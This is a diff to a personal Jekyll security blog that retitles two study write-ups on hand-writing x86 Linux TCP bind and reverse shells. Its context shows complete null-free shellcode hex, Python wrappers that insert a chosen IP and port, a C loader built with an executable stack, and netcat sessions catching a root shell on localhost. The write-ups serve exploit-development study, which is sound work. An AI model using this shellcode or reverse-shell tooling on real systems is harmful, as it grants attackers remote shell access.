

Before and after one commit to crawl3r/crawl3r.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page, without its empty margins (207-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code.

Commit message:
post updates
updated

````diff
--- a/_posts/2020-01-07-slae32_tcp_bind_shell.md
+++ b/_posts/2020-01-07-slae32_tcp_bind_shell.md
@@ -1,10 +1,10 @@
 ---
 layout: post
-title: "SLAE32 - 1. TCP Bind Shell"
+title: "x86 TCP Bind Shell"
 ---
 
 ## Introduction:
-The first SLAE32 exercise that required a write up was the x86 bind shell, written from scratch. As we know, or may not know, a bind shell does what it says in the name. It binds a shell. Unlike a reverse shell, the process sets up a listener on the host and waits for a connection, once accepted it fires off our new process and pipes the connection through allowing commands to be sent from a remote system and return the output.
+During my prep for OSCE, my first goal was to learn to create a bind shell in x86, written from scratch. As we know, or may not know, a bind shell does what it says in the name. It binds a shell. Unlike a reverse shell, the process sets up a listener on the host and waits for a connection, once accepted it fires off our new process and pipes the connection through allowing commands to be sent from a remote system and return the output.
 
 ## Brief thoughts:
 The actual implementation of the TCP bind shell was relatively straight forward. Using a C based prototype I was able to make a list of required system calls and utilise the Linux man pages to confirm the arguments and how they would need to appear and be set up within the asm file. An important thing to remember is null bytes are bad. We don't want these to exist in our final project so simple tricks were used to get around these (i.e xor'ing registers with themselves to zero them). These will be highlighted when, and where, they are used.
@@ -107,8 +107,8 @@ int main(void){
 Compile and run:
 
 ```
-root@kali:~/Documents/slae32/misc# gcc test.c
-root@kali:~/Documents/slae32/misc# ./a.out
+root@kali:~/Documents/bindshell/misc# gcc test.c
+root@kali:~/Documents/bindshell/misc# ./a.out
 AF_INET: 2
 SOCK_STREAM: 1
 ```
@@ -200,7 +200,7 @@ int main(void){
 Compiling and executing the script gave me the following information:
 
 ```
-root@kali:~/Documents/slae32/misc# ./b.out
+root@kali:~/Documents/bindshell/misc# ./b.out
 AF_INET: 2
 INADDR_ANY: 0
 SIZE OF: 16
@@ -356,7 +356,7 @@ We should now have a fully functioning TCP bind shell, ready for assembling, lin
 I created a quick little script to help with assembling and linking my scripts, rather than having to issue 2 separate commands each time:
 
 ```
-root@kali:~/Documents/slae32/misc# cat build.sh
+root@kali:~/Documents/bindshell/misc# cat build.sh
 echo "Assembling $1.asm"
 nasm -f elf32 "$1".asm
 
@@ -495,7 +495,7 @@ After playing around with the script for a while and testing a few things, I was
     * after removing each of these, I realised that this led to issues when making the system calls. I used strace to attempt to see what was going on. Looking at the following output snippet, we can see that the registers must have had junk left over before using them for our call - resulting in garbage values.
 
  ```
- root@kali:~/Documents/slae32/exercise_1/second_bind_shell# strace ./second_bind_shell
+ root@kali:~/Documents/bindshell/bindshellsecond_bind_shell# strace ./second_bind_shell
 execve("./second_bind_shell", ["./second_bind_shell"], 0xbfe76800 /* 41 vars */) = 0
 socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
 bind(3, {sa_family=AF_INET, sin_port=htons(9001), sin_addr=inet_addr("1.0.0.0")}, 16) = -1 EADDRNOTAVAIL (Cannot assign requested address)
@@ -613,14 +613,14 @@ Dumping the hex for usage:
 To extract our hex values for our shell, we can use the following shell script (dump_hex.sh) along with the target object to extract the hex values in a usable fashion. The output can be taken and placed directly into the following python wrapper.
 
 ```
-root@kali:~/Documents/slae32/misc# cat dump_hex.sh
+root@kali:~/Documents/bindshell/misc# cat dump_hex.sh
 objdump -d "$1" |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
 ```
 
 Usage:
 
 ```
-root@kali:~/Documents/slae32/exercise_1/second_bind_shell# ../../misc/dump_hex.sh second_bind_shell
+root@kali:~/Documents/bindshell/bindshellsecond_bind_shell# ../../misc/dump_hex.sh second_bind_shell
 "\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x69\\x01\\x89\\xfb\\x31\\xc9\\x51\\x51\\x66\\x68\\x23\\x29\\x66\\x6a\\x02\\x89\\xe1\\x31\\xd2\\xb2\\x10\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6b\\x01\\x89\\xfb\\x31\\xc9\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6c\\x01\\x89\\xfb\\x31\\xc9\\x31\\xd2\\x31\\xf6\\xcd\\x80\\x89\\xc7\\x31\\xc9\\xb1\\x03\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xfe\\xc9\\xcd\\x80\\x75\\xf4\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x50\\x89\\xe1\\x50\\x89\\xe2\\xb0\\x0b\\xcd\\x80"
 
 ```
@@ -635,7 +635,7 @@ The more logical solution would be to create a little tool, or wrapper, that tak
 The following script is a python wrapper that I have made to allow a custom port to be placed into the script, replacing the hard coded value within the final hex output.
 
 ```
-root@kali:~/Documents/slae32/exercise_1# cat wrapper.py
+root@kali:~/Documents/bindshell# cat wrapper.py
 import sys
 import socket
 
@@ -686,7 +686,7 @@ print shellcode
 As we can see in the above shellcode value, there are two placeholder values [p2] and [p1], these are the two hex values that are replaced with the target port, specified at runtime. Once edited, the final shellcode is output to the screen, as seen in the following usage example:
 
 ```
-root@kali:~/Documents/slae32/exercise_1# python wrapper.py 9003
+root@kali:~/Documents/bindshell# python wrapper.py 9003
 Chosen port: 9003
 1st port: \x2b
 2nd port: \x23
@@ -699,7 +699,7 @@ Final Shellcode:
 Our final step is to utilise this hex output within an executable that injects the shellcode directly into the process memory and executes it, binding out shell. This can be completed in various languages, for example C# is an ideal candidate for a Windows shell. As I am working within a Unix environment I wrote my executable in C.
 
 ```
-root@kali:~/Documents/slae32/exercise_1# cat shell.c
+root@kali:~/Documents/bindshell# cat shell.c
 #include<stdio.h>
 #include<string.h>
 
@@ -714,16 +714,13 @@ int main(void)  {
 
 Compiling and executing:
 ```
-root@kali:~/Documents/slae32/exercise_1# gcc -fno-stack-protector -z execstack shell.c -o shell
-root@kali:~/Documents/slae32/exercise_1# ./shell
+root@kali:~/Documents/bindshell# gcc -fno-stack-protector -z execstack shell.c -o shell
+root@kali:~/Documents/bindshell# ./shell
 Shellcode Length:  118
 
 root@kali:~# nc localhost 9003
 id
 uid=0(root) gid=0(root) groups=0(root)
 pwd
-/root/Documents/slae32/exercise_1
+/root/Documents/bindshell
 ```
-
-## Additional:
-todo - amend this section to include any course details ready for submission. For now, the write ups will just be live.
--- a/_posts/2020-01-12-slae32_tcp_reverse_shell.md
+++ b/_posts/2020-01-12-slae32_tcp_reverse_shell.md
@@ -1,16 +1,16 @@
 ---
 layout: post
-title: "SLAE32 - 2. TCP Reverse Shell"
+title: "x86 TCP Reverse Shell"
 ---
 
 ## Introduction
-The second exercise for the slae32 course is to write a TCP reverse shell using x86. During this exercise, I noticed that a high percentage of code could be taken directly from the TCP bind shell, completed in exercise 1. However I chose to implement this from scratch without copy and pasting in order to confirm my newly learnt instructions and confirm I remembered the previous exercise and the steps taken to complete it.
+After writing bind shell, I wanted to learnt how to create a TCP reverse shell using x86. I noticed that a high percentage of code could be taken directly from the TCP bind shell. However I chose to implement this from scratch without copy and pasting in order to confirm my newly learnt instructions and confirm I remembered the previous task of creating a bind shell and the steps taken to complete it.
 
 ## Brief Thoughts
-During this exercise I performed similar steps to exercise 1, so to prevent a high amount of repetition within this post I will walk through the code once again however I will only explain specific sections of code that were not discussed during the completion of the TCP bind shell, making sure to cover any new C, system calls, wrapper changes and x86. Overall, I found implementing the reverse shell to be easier than the bind shell - but this may be because I had already written my first file in x86 so now this felt a little easier to work through. I had a little trouble making sure the python wrapper stomped out any NULL bytes, however that will be discussed later on in the post.
+During this task I performed similar steps to the bind shell, so to prevent a high amount of repetition within this post I will walk through the code once again however I will only explain specific sections of code that were not discussed during the completion of the TCP bind shell, making sure to cover any new C, system calls, wrapper changes and x86. Overall, I found implementing the reverse shell to be easier than the bind shell - but this may be because I had already written my first file in x86 so now this felt a little easier to work through. I had a little trouble making sure the python wrapper stomped out any NULL bytes, however that will be discussed later on in the post.
 
 ## Initial Planning
-Similar to exercise 1, my first steps are to gather the information required to create my reverse shell - making sure I have all the required system call information and any additional documentation required to duplicate a C based reverse shell. The following C code presents the TCP reverse shell solution that I used as my reference during this exercise:
+Similar to the bind shell, my first steps are to gather the information required to create my reverse shell - making sure I have all the required system call information and any additional documentation required to duplicate a C based reverse shell. The following C code presents the TCP reverse shell solution that I used as my reference:
 
 ```
 #include <stdio.h>
@@ -47,15 +47,15 @@ int main(int argc, char *argv[])
 }
 ```
 
-Compared to exercise 1, the only new system call we can see here is the connect() function. Before we start, let’s make sure we have all the required information using the same approach as last time:
+Compared to the bind shell, the only new system call we can see here is the connect() function. Before we start, let’s make sure we have all the required information using the same approach as last time:
 
 ```
-root@kali:~/Documents/slae32/exercise_2# cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep connect
+root@kali:~/Documents/revshell# cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep connect
 #define __NR_connect 362
 ```
 
 ```
-root@kali:~/Documents/slae32/exercise_2# man 2 connect
+root@kali:~/Documents/revshell# man 2 connect
 <snipped>
 SYNOPSIS
        #include <sys/types.h>          /* See NOTES */
@@ -69,7 +69,7 @@ RETURN VALUE
        is returned, and errno is set appropriately.
 ```
 
-We can now create our table of system calls required for this exercise:
+We can now create our table of system calls required for the reverse shell:
 
 | System Call | C Definition | Return Value | Syscall Number |
 |---|:---|:---|:---|
@@ -80,7 +80,7 @@ We can now create our table of system calls required for this exercise:
 {:.mbtablestyle}
 
 ## Crafting our Reverse Shellcode
-Similar to exercise 1, we first want to create the skeleton of our script. Making sure we have our entry point and clean registers:
+Similar to our bind shell, we first want to create the skeleton of our script. Making sure we have our entry point and clean registers:
 
 ```
 global    _start
@@ -112,7 +112,7 @@ The second system call required is new to us, and required a bit of work to get
 * a pointer to a sockaddr struct
 * the size of this sockaddr struct in memory
 
-As previously researched in exercise 1, the sockaddr struct contains the following data (taken from https://www.cs.cmu.edu/~srini/15-441/S10/lectures/r01-sockets.pdf):
+As previously researched, the sockaddr struct contains the following data (taken from https://www.cs.cmu.edu/~srini/15-441/S10/lectures/r01-sockets.pdf):
 
 ```
 struct sockaddr_in {
@@ -171,7 +171,7 @@ int 0x80
 
 To quickly cover the above snippet, we start off by XOR-ing our EAX register before placing the syscall value 362 (0x16a) into the lower half of the register. Remember, we use AX instead of EAX to remove any NULL bytes in the final payload. We place the value returned by our socket() system call in our 1st parameter (EBX) before crafting our sockaddr struct. Once created and placed on the stack, as described before, we move the current value of our ESP register (pointer to the top of the stack) into our second parameter (ECX). This now satisfies the pointer requirement, described in our initial analysis of the connect system call. Finally, we xor our 3rd parameter register (EDX) and move the value 16 into the lower half of the register, stating the size of the struct. The system call is now ready to execute with the ‘int 0x80’ instruction.
 
-We now need to call dup2() three times to set up our pipes for our final shell. Originally, in exercise 1, I implemented three separate chunks of instructions to perform the system call with the correct parameter values. In my second draft I changed this to use a loop, decrementing the counter each time before breaking out of the loop. This time around I returned to the three separate chunks of instructions. The main reason was, I forgot how to implement a loop and I didn’t want to look back at my previous asm file for help. So I stuck with the three chunks:
+We now need to call dup2() three times to set up our pipes for our final shell. Originally, in the implementation of the bind shell, I implemented three separate chunks of instructions to perform the system call with the correct parameter values. In my second draft I changed this to use a loop, decrementing the counter each time before breaking out of the loop. This time around I returned to the three separate chunks of instructions. The main reason was, I forgot how to implement a loop and I didn’t want to look back at my previous asm file for help. So I stuck with the three chunks:
 
 ```
 ; syscall dup2 - 3 times 63 (0x3f)
@@ -195,9 +195,9 @@ mov cl, 0x2
 int 0x80                ; third call with 2
 ```
 
-I won’t explain this code again, as it is exactly the same as exercise 1. If you are unsure of the implementation above, please check that post.
+I won’t explain this code again, as it is exactly the same as the bind shell. If you are unsure of the implementation above, please check that post.
 
-By this point, our asm script sets up a socket, attempts to connect to a remote host and sets up our pipes ready for our new target process, in this case, it’s our “/bin/sh” shell. This means the final system call required is our execve() call. Again, this implementation came out the same as exercise 1, so again, I won’t step through it.
+By this point, our asm script sets up a socket, attempts to connect to a remote host and sets up our pipes ready for our new target process, in this case, it’s our “/bin/sh” shell. This means the final system call required is our execve() call. Again, this implementation came out the same as our bind shell, so again, I won’t step through it.
 
 ```
 ; syscall execve 11 (0xb)
@@ -304,7 +304,7 @@ _start:
 Now the reverse shell script is complete, we want to make sure we can assemble and link it without any errors. This is done with the following:
 
 ```
-root@kali:~/Documents/slae32/exercise_2# ../misc/build.sh first_reverse_shell
+root@kali:~/Documents/revshell# ../misc/build.sh first_reverse_shell
 Assembling first_reverse_shell.asm
 Linking first_reverse_shell.o
 Done
@@ -315,12 +315,12 @@ At this point, I tested and confirmed that the reverse shell worked before movin
 We can then dump the hex from the assembled object, and check we don’t have any NULL bytes within the output. The contents of dump_hex.sh can be seen in the first post:
 
 ```
-root@kali:~/Documents/slae32/exercise_2# ../misc/dump_hex.sh first_reverse_shell
+root@kali:~/Documents/revshell# ../misc/dump_hex.sh first_reverse_shell
 "\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x6a\\x01\\x89\\xfb\\x31\\xc9\\x51\\xc6\\x04\\x24\\x7f\\xc6\\x44\\x24\\x03\\x01\\x51\\x66\\x68\\x23\\x29\\x66\\x6a\\x02\\x89\\xe1\\x31\\xd2\\xb2\\x10\\xcd\\x80\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\x31\\xc9\\xcd\\x80\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xb1\\x01\\xcd\\x80\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xb1\\x02\\xcd\\x80\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x50\\x89\\xe1\\x50\\x89\\xe2\\x31\\xc0\\xb0\\x0b\\xcd\\x80"
 ```
 
 ## Wrapper to allow custom IP address and Port number:
-Similar to the python wrapper used in exercise 1, this wrapper allows the user to specify their own port number. This number is then converted into hex values and placed within the correct position of our shellcode string. As well as the custom port number, I added functionality for custom IP addresses to be placed into the shellcode itself. I achieved this by taking the required instructions and their op codes from the 'objdump -d’ output and created four separate chunks of these instructions.
+Similar to the python wrapper used with our bind shell, this wrapper allows the user to specify their own port number. This number is then converted into hex values and placed within the correct position of our shellcode string. As well as the custom port number, I added functionality for custom IP addresses to be placed into the shellcode itself. I achieved this by taking the required instructions and their op codes from the 'objdump -d’ output and created four separate chunks of these instructions.
 
 ```
 fourth_ip_asm = "\\xc6\\x04\\x24\\x[4]"       # movb   $0x7f,(%esp)   (127)
@@ -334,7 +334,7 @@ As we can see, each string contains a tag with an integer in there, i.e [1], [2]
 The complete python wrapper with tags that are replaced by user input can be seen below:
 
 ```
-root@kali:~/Documents/slae32/exercise_2# cat wrapper.py
+root@kali:~/Documents/revshell# cat wrapper.py
 import sys
 import socket
 
@@ -427,7 +427,7 @@ print shellcode
 Using our wrapper:
 
 ```
-root@kali:~/Documents/slae32/exercise_2# python wrapper.py 127.0.0.1 9005
+root@kali:~/Documents/revshell# python wrapper.py 127.0.0.1 9005
 Chosen ip: 127.0.0.1
 Chosen port: 9005
 \xc6\x44\x24\x03\x7f
@@ -559,7 +559,7 @@ print shellcode
 Running our Python wrapper once again produces NULL byte free shellcode that can be placed directly into our C script, allowing us to compile and inject the new payload:
 
 ```
-root@kali:~/Documents/slae32/exercise_2# cat shell.c
+root@kali:~/Documents/revshell# cat shell.c
 #include<stdio.h>
 #include<string.h>
 
@@ -575,32 +575,29 @@ int main(void)  {
 We can finally compile our C program with the required arguments:
 
 ```
-root@kali:~/Documents/slae32/exercise_2# gcc -fno-stack-protector -z execstack shell.c -o shell
+root@kali:~/Documents/revshell# gcc -fno-stack-protector -z execstack shell.c -o shell
 ```
 
 We are now ready to try out our reverse shell. First we set up a listener on the specified port:
 
 ```
-root@kali:~/Documents/slae32/exercise_2# nc -nlvp 9005
+root@kali:~/Documents/revshell# nc -nlvp 9005
 listening on [any] 9005 ...
 ```
 
 We then execute our newly compiled shell:
 
 ```
-root@kali:~/Documents/slae32/exercise_2# ./shell
+root@kali:~/Documents/revshell# ./shell
 Shellcode Length:  113
 ```
 
 Looking back at our listener, we notice we have the successfully caught our reverse shell and have dropped into an interactive “/bin/sh” process:
 
 ```
-root@kali:~/Documents/slae32/exercise_2# nc -nlvp 9005
+root@kali:~/Documents/revshell# nc -nlvp 9005
 listening on [any] 9005 ...
 connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 40884
 id
 uid=0(root) gid=0(root) groups=0(root)
 ```
-
-## Additional:
-todo - amend this section to include any course details ready for submission. For now, the write ups will just be live.
````
Also changed, not shown: 12 other files.
